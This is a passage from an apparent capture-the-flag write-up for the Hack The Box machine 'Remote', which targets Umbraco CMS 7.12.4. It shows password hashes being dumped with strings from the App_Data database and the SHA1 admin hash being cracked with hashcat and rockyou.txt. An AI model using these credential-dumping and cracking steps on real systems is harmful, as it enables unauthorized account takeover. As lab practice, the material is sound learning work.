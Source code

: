 We see that Umbraco CMS 7.12.4 is vulnerable to an Authenticated RCE.  We just need to find those Creds.  After some more enumeration you find the SQL databese file `Umbraco.sdf` in `/App_Data`.  We can look at the contents of the file with strings.

```bash
root@HTBKali:~/HTB/Remote/nfs/App_Data# strings Umbraco.sdf | head
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

From this we can figure out the database looks something like 

| User | Login Username |  Password(hashed) | Hashing algorithm|
|-----|----|----|-----|
| admin | admin@htb.local | b8be16afba8c314ad33d812f22a04991b90e2aaa | {"hashAlgorithm":"SHA1"} |
| smith | smith@htb.local | jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= | {"hashAlgorithm":"HMACSHA256"} |
| ssmith | ssmith@htb.local | jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= | {"hashAlgorithm":"HMACSHA256"} |
| ssmith| ssmith@htb.local | 8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA= | {"hashAlgorithm":"HMACSHA256"} |

With this the admin password being SHA1 instead of HMACSHA256 is telling me to try to crack it.  I will need to get the hashcat example code for SHA1 before I start.  
```bash
root@HTBKali:~/HTB/Remote# hashcat -h | grep SHA1
    100 | SHA1                                             | Raw Hash
```

Then run hashcat with rockyou.txt.

```bash
vipertooth@vipertooth:~/HTB/remote$ hashcat -a 0 -m 100 hashes /opt/rockyou.txt
hashcat (v5.1.0-1397-g7f4df9eb) starting...

<snip>

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: b8be16afba8c314ad33d812f22a04991b90e2aaa
Time.Started.....: Thu Mar 26 13:23:41 2020 (1 sec)
Time.Estimated...: Thu Mar 26 13:23:42 2020 (0 secs)
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 11566.3 kH/s (5.30ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9830400/14344385 (68.53%)
Rejected.........: 0/9830400 (0.00%)
Restore.Point....: 9175040/14344385 (63.96%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: chautla -> babypollisteamo
Hardware.Mon.#1..: Temp: 53c Util: 29% Core:1556MHz Mem:3802MHz Bus:16

```